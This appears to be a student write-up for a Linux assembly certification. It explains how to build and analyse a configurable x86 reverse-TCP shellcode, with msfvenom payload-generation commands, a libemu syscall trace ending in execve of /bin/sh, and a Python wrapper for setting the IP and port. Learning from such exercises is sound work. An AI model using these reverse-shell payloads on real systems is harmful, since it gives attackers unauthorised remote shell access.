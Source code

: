 # Exercise 2

## Assignment #2

- Create a Shell_Reverse_TCP shellcode

    - Reverse connects to configured IP and Port

    - Execs Shell on successful connection

- IP and Port number should be easily configurable


## Usage

```
python wrapper.py $IP $PORT
```

![Screenshot](images/wrapper/2.png)

If there are not input variables, the program asks for them:

![Screenshot](images/wrapper/1.png)


Test with port 7777:

![Screenshot](images/wrapper/3.png)

Result:

![Screenshot](images/wrapper/4.png)

If the port causes problems, a warning message will appear:

![Screenshot](images/wrapper/5.png)


## First approach: Libemu


After installing Libemu, we will use the sctest binary. We can get the result using the binary directly:

```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
```

Or we can use the libemu.sh script (in scripts/ folder):

```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

The result:


```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

Once we know the system calls or syscalls, the values used in them and the order, it is necessary to get the hexadecimal values for every syscall, using cat and printf to print the hexadecimal value:

```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep listen

printf "%x\n" 363
```

Or the syscallhex.sh script (in scripts/ folder)


```
sh syscallhex.sh listen
```



The system calls and their values are:

- Socket:   359 (0x167)

- Dup2:     63 (0x3f)

- Connect:  362 (0x16a)

- Execve:   11 (0xb)


Also it is important to know how the system calls work in Linux. As stated in the [Skape's paper about egghunters](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) "the system call interface that is exposed to user-mode applications in Linux (on IA32) is provided through soft-interrupt 0x80. The following table describes the register layout that is used across all system calls"

![Screenshot](images/wrapper/6.png)

Knowing this and the values from the Libemu's output, it is possible to write the nasm code.


## Creating the Python wrapper

Get the shellcode changing the "\" to "\\":

![Screenshot](images/2.png)

Detect where the port (8888 or 0x22b8 in hexadecimal), the IP and the auxiliar value used to substract to the IP are being used:

![Screenshot](images/3.png)

Now we know the value in the original shellcode which must be substituted. After this, we just must take the input to the wrapper script, translate the port number to hexadecimal (in big endian format) and print the new shellcode with the port updated.


------------------------------------------------------------------

## Second approach: Ndisasm

A second approach, which can be considered easier, is to get the nasm file from the raw output from msfvenom:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=8888 --platform=Linux -a x86 -f raw | ndisasm -u -
```

![Screenshot](images/4.png)


It can be compiled:

![Screenshot](images/5.png)


And it works correctly:

![Screenshot](images/6.png)

This is included in the **ndisasm_approach** folder, but the wrapper has been developed and tested only for the first approach.



------------------------------------------------------------------

## Some useful links
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
- http://man7.org/linux/man-pages/man2/socket.2.html
- https://rosettacode.org/wiki/Sockets
- http://www6.uniovi.es/cscene/CS5/CS5-05.html
- https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
- https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm
- https://forum.nasm.us/index.php?topic=889.0



---------------------------------------------------

## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433